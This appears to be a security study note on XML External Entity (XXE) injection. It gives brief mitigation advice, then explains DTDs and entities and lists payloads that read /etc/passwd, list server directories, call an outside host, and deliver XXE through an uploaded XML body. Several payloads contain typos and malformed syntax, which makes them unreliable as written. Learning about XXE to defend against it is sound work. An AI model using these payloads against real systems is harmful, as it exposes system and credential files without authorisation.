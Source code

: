 To mitigate XXE vulnerabilities, developers should:

- Disable external entity processing in XML parsers.
- Use safer data formats like JSON when possible.
- Validate and sanitize XML input.

Example:
`<?xml version="1.0" encoding="UTF-8"?>`
`<!DOCTYPE creds [`
`<!ELEMENT creds ANY >`
`<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>`
`<creds><user>&xxe;</user><password><pass></password></creds>`

XML uses a tree-like structure
- There are no pre-defined tags
- Declining in popularity

**DTD (Document Type Definition):**

- Contains declarations that can defile the structure of an XML document and types of values it can contain
- Can be fully self-contained or loaded externally ("External DTD"), or a mixture of the two.
- Defined using the 'DOCTYPE' keyword.

**XML custom entities:**

- Entities defined in the DTD
- `<!DOCTYPE ase [<!ENTITTY cheese "gouda"]>`
- `&cheese;` in the XML document will be replaced with gouda.

**XML external entities:**

- External entities are also defined in the DTD and use the SYSTEM keyword.
- `<!DOCTYPE ase [!<ENTITY cheese SYSTEM "http://gouda.com/gouda"]>`	
- We can also use the file:// and other protocol instead of http.

**Payloads:**
- XML external entities:
	- `<!DOCTYPE ase [<!ENTITY cheese SYSTEM "http://gouda.com/gouda">]>`
	- `<customtag>&cheese:</customtag>`
	- `<!DOCTYPE ase [<!ENTITY cheese SYSTEM "ftp:///etc/passwd">]>`
	- `<customtag>&cheese:</customtag>`
	
 **XML parameter entities:**
- `<!DOCTYPE ase [<!ENTITY % cheese SYSTEM "http://gouda.com/gouda"> %cheese; ]>`
	
**Listing files via XXE:**
- Listing /
	- `<?xml verson="1.0" encoding="UTF-8"?>`
	- `<!DOCTYPE ase [<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]>`
	- `<root><foo>&xxe;</foo></root>`
- Listing /etc
	- `<?xml verson="1.0" encoding="UTF-8"?>`
	- `<!DOCTYPE ase [<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///etc/">]>`
	- `<root><foo>&xxe;</foo></root>`
	
**XXE via File Upload:**
- We can sometimes achieve XXE with XML-based file formats.
	- SVG
	- DOCX
- Even when a target application asks for non-XML files such as a PNG, it might accept a SVG and be vulnerable to XXE.
- To achieve this we usually need to ensure that the Content-Type is set to 'text/xml'.
	- `POST /action HTTP/1.0`
	- `Content-Type: text/xml`
	- `<?xml version="1.0" encoding="UTF-8"?>`
	- `<!DOCTYPE ase [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
	- `<ase>&xxe;</ase>`
	